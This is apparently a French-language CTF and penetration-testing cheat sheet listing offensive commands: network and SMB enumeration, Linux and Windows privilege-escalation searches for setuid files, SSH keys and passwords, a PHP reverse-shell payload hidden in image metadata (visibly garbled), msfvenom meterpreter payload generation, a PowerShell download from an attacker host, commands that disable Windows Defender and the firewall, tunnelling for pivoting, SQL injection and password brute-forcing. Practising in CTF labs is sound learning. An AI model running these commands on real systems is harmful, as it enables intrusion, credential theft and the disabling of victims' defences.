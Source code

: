 # CTF-Cheat-Sheet


__Reverse shell__ :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

__Scripts d’énumération automatique pour privesc__ :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

__Enumération__
```bash
nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134
```
__WEB__
```bash
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL
```
smbclient --list //"IPADDRESS"/ -U ""
__Enumération des répertoires partagés accessibles en anonymous__

rpcclient -U "" -N 10.10.10.180/
__Bruteforcer les RID des comptes Windows__

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
__Bruteforce SMB avec crackmapexec__

enum4linux -a 10.10.10.180
__Enumération SMB, RPC & co (WINDOWS)__


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


__Exploitation & Elévation de privilèges [LINUX] :__
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
__Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet__

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
__-> liste les commandes autorisées pour l’utilisateur courant__

find / -type d -writable 2> /dev/null
__-> Liste les répertoires accessibles en écriture__

find /* -user root -perm -4000 -print 2>/dev/null
__-> Liste les binaires exécutables par l’utilisateur courant__

find / -type f -perm /6000 -ls 2>/dev/null
__-> Liste les fichiers setuid/setgid sur le système__

find / -iname "mon_fichier" -print 2>/dev/null
__-> Trouver un fichier précis sur le système__

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
__-> Trouver des clés RSA ou des autorisations de connexion SSH__

grep -iR "passw"
__-> Rechercher du texte dans des fichiers d’une arborescence__

binwalk socute.jpg
__-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)__

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


__Exploitation & Elévation de privilèges [WINDOWS] :__
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
__Se connecter via le port winrm__

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
__Tester les privilèges de l’utilisateur__

whoami /priv
whoami /groups
__Liste des privilèges : https://github.com/gtworek/Priv2Admin__
__Lister les privilèges de l’utilisateur courant__

Get-Services
__Lister les services (Pour vérifier les unquoted services)__

Set-ExecutionPolicy Unrestricted
__Retirer les restrictions d’exécution de scripts__

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
__Télécharger un fichier depuis un serveur web__

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
__Vérifier les exploits disponibles en fonction du systeminfo de la victime__

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
__Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet__

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
__Activer le RDP et désactiver le firewall__

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
__Désactiver Windows Defender en Powershell__


__Pivoting :__
__Sous Windows :__
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
__Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2__
__Seul WINDOWS1 peut joindre WINDOWS2__

__sur le serveur (kali) :__
./chisel server --port 9000 --host 0.0.0.0 --reverse

__sur le client (WINDOWS1 172.16.1.1) :__
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
__On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali__

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2__

__Sous Linux :__
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
__Ici Kali peut joindre LINUX1 mais pas LINUX2__
__Seul LINUXS1 peut joindre LINUX2__

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
__On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000__

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2__


__Injection SQL :__
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


__Bruteforce :__
__Cracker un hash SHA 512 avec un salage__
__Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :__
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

__Cracker un zip chiffré avec une liste de mots de passe__
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
__tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)__

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
__Pour bruteforcer de façon incrémentale__

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
__Pour bruteforcer avec un dictionnaire__

__Script de bruteforce anti-CSRF :__
https://github.com/J3wker/anti-CSRF_Token-Bruteforce



